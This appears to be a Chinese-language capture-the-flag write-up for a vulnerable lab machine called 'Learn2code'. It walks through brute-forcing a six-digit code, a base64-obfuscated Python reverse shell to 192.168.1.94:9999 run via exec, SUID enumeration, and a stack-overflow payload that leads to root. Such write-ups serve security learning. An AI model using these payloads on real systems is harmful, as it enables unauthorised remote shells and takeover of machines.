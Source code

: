 # Learn2code

扫描端口发现仅开放`80`，进入首页

## 数字爆破

![](./img/Learn2code-1.png)

![](./img/Learn2code-2.png)

发现是`6位数字`

使用`crunch`生成6位数字字典

```bash
crunch 6 6 -t %%%%%% -o 6_num_dict.txt
```

![](./img/Learn2code-4.png)

发现之前能成功后面又失败的数字，说明这个`code`在不断变化，需要尽快输入，爆破`yakit`用起来还是不太好用，我这里使用`burpsuite`

![](./img/Learn2code-5.png)

![](./img/Learn2code-6.png)

看起来是`python`的报错，反弹shell发现被过滤，使用`base64`编码

![](./img/Learn2code-7.png)

![](./img/Learn2code-8.png)

```
exec 'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMS45NCIsOTk5OSkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vc2giKQ=='.decode('base64')
```

记得用`单引号`

![](./img/Learn2code-9.png)

![](./img/Learn2code-10.png)

## 提权

```bash
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/MakeMeLearner
/usr/bin/chfn
```

发现`MakeMeLearner`，因为`home`目录有个`learner`用户

![](./img/Learn2code-11.png)

因为需要参数，尝试下载文件，因为有`python`,发现是`python2`，使用命令

```
python2 -m SimpleHTTPServer 8999
```

![](./img/Learn2code-12.png)

![](./img/Learn2code-13.png)

![](./img/Learn2code-14.png)

发现需要`modified`为`0x61626364`，按照wp说的方案是随便写点东西，发现在很长的时候就不是`you got 0x00000000`了，然后再找到一个边界值，最后输入`abcd`就能符合条件，但是长度需要控制，看了下https://www.kayssel.com/post/binary-exploitation-5-smash-the-stack/文章内容很像，暂时没有动态调试的能力，直接以数组长度+`dcba`即可正常溢出

```bash
python3 -c 'print("A"*76 + "dcba")'
```

![](./img/Learn2code-15.png)

然后成功后在家目录下又发现一个`elf`文件`MySecretPasswordVault`，同样下载分析，发现类似密码的东西，尝试拼接登录`root`

![](./img/Learn2code-16.png)